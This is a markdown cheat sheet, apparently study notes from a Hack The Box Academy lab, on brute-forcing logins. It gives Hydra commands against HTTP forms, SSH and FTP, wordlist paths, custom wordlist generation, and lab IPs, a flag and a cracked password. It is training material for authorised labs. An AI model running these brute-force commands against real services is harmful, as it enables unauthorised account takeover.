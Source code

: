 # Login Brute Forcing  

# Pasword HASH Enumeration  

>Files that can contain hashed passwords for offline brute-forcing:  

| **Windows**   | **Linux**   |
| --------------|-------------------|
| unattend.xml | shadow |
| sysprep.inf | shadow.bak |
| SAM | password / passwd |

# Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists [Service Authentication Brute Forcing](https://academy.hackthebox.com/module/57/section/491) |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
| `hydra -l b.gates -P william.txt ssh://83.136.251.221:53718` | Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. [](https://academy.hackthebox.com/module/57/section/491) |

# Wordlists

| **Lists**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist [Dictionary Attack - SecLists repo for wordlists](https://github.com/danielmiessler/SecLists) |
| `/usr/share/wordlists/rockyou.txt` | The most Common Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt` | The seclists Passwords in this Leaked-Databases file rockyou-10 contain 92 entries. |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Default Passwords  

>It is very common to find pairs of usernames and passwords used together, especially when default service passwords are kept unchanged.
>[Default Passwords - Login Brute Force](https://academy.hackthebox.com/module/57/section/498) POST Form:  

```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f 83.136.251.168 -s 52278 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```  

>[HYDRA - Brute Forcing Forms](https://academy.hackthebox.com/module/57/section/489)  
>[Username Brute Force](https://academy.hackthebox.com/module/57/section/487)  

![default-passwords HTB{bru73_f0rc1n6_15_4_l457_r350r7}](/images/default-passwords.png)  

>Above screenshot show using Burp Proxy to [Determine Login Parameters](https://academy.hackthebox.com/module/57/section/504)  

# Personalized Wordlists  

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist [Personalized Wordlists](https://academy.hackthebox.com/module/57/section/512) |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List [GITHUB Username Anarchy](https://github.com/urbanadventurer/username-anarchy) |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |
| `netstat -antp | grep -i list` | Identify internal network services and their ports running on the local victim machine. |
| `scp -P 53718 ./william.txt b.gates@83.136.251.221:/tmp` | Use SCP with the obtain credentials for user `b.gates` and password `4dn1l3M!$` to copy the files to target. |
| `hydra -l m.gates -P /tmp/william.txt ftp://127.0.0.1` | Use `hydra` on the victim locally to identify password of user against internal FTP service. |
